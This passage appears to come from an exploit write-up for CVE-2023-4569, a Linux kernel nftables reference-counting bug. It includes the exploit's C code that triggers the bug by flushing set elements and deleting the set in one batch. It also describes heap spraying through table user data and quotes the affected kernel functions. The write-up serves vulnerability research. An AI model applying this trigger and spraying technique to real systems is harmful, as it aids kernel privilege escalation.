 By the way, we need to send the command of step 3 and step 4 together because we need to avoid set element B being actually released before our step 4. 
This code triggering the vulenrability:
```
    new_set_hashtable(socket, SET_TABLE, tmp_set, NFT_OBJECT_CT_EXPECT, 8);
    new_setelem(socket, SET_TABLE, tmp_set, pad, 0x100, target_obj, NULL, 0, NULL, 0, 1);//create a catchall elem here
    memset(msg_list, 0, sizeof(struct nlmsghdr *)*2);
    msg_list[0] = elem_flush_msg(SET_TABLE, tmp_set);
    msg_list[1] = del_set_msg(SET_TABLE, tmp_set);
    send_msg_list(socket, msg_list, 2);
```
## About spray_tables
It's a function in exploit.c which will be used to spray heap. In nftables, when creating a table, you can let the kernel malloc and fill any size of heap memory by using NFTA_TABLE_USERDATA (the corresponding code is in the function nf_tables_newtable). 

## Exploit it
It's hard to exploit CVE-2023-4569 because there are only operations related to reference counting in the function nft_setelem_data_deactivate: 

```
static void nft_setelem_data_deactivate(const struct net *net,
					const struct nft_set *set,
					struct nft_set_elem *elem)
{
	const struct nft_set_ext *ext = nft_set_elem_ext(set, elem->priv);

	if (nft_set_ext_exists(ext, NFT_SET_EXT_DATA))
		nft_data_release(nft_set_ext_data(ext), set->dtype);
	if (nft_set_ext_exists(ext, NFT_SET_EXT_OBJREF))
		(*nft_set_ext_obj(ext))->use--;
}

void nft_data_release(const struct nft_data *data, enum nft_data_types type)
{
	if (type < NFT_DATA_VERDICT)
		return;
	switch (type) {
	case NFT_DATA_VERDICT:
		return nft_verdict_uninit(data);
	default:
		WARN_ON(1);
	}
}


static void nft_verdict_uninit(const struct nft_data *data)
{
	struct nft_chain *chain;

	switch (data->verdict.code) {
	case NFT_JUMP:
	case NFT_GOTO:
		chain = data->verdict.chain;
		chain->use--;
		break;
	}
}
```
The two structures involved in reference counting are not easy to leak information or hijack RIP when the reference counting is wrong.